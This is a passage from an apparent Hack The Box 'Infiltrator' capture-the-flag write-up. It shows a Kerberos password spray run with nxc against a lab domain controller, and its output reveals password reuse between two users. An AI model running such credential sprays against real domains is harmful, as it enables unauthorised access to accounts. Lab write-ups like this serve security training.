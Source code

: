 <figure><img src=".gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

This group is important to take note of, because users in this group must authenticate with kerberos. Something which you should have already done is attempted credential re-use by spraying the one credential we found across all users in the domain. However, this would have turned up nothing. Armed with the knowledge that there are two users in the protected users group, we should shift our tactics regarding those users.

Let's add a -k flag to the end of our nxc password spray, and see what happens:

```
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ nxc ldap dc01.infiltrator.htb -u ../../usernames.txt -p 'WAT?watismypass!' -k --continue-on-success
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        dc01.infiltrator.htb 389    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED
LDAP        dc01.infiltrator.htb 389    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! KDC_ERR_PREAUTH_FAILED
LDAP        dc01.infiltrator.htb 389    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! KDC_ERR_PREAUTH_FAILED
LDAP        dc01.infiltrator.htb 389    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! KDC_ERR_PREAUTH_FAILED
LDAP        dc01.infiltrator.htb 389    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
LDAP        dc01.infiltrator.htb 389    DC01             [-] infiltrator.htb\e.rodriguez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED
LDAP        dc01.infiltrator.htb 389    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass!
```

Wow! We do indeed have a hit. d.anderson shares a password with l.clark. Lets go check out what his permissions are with bloodhound:
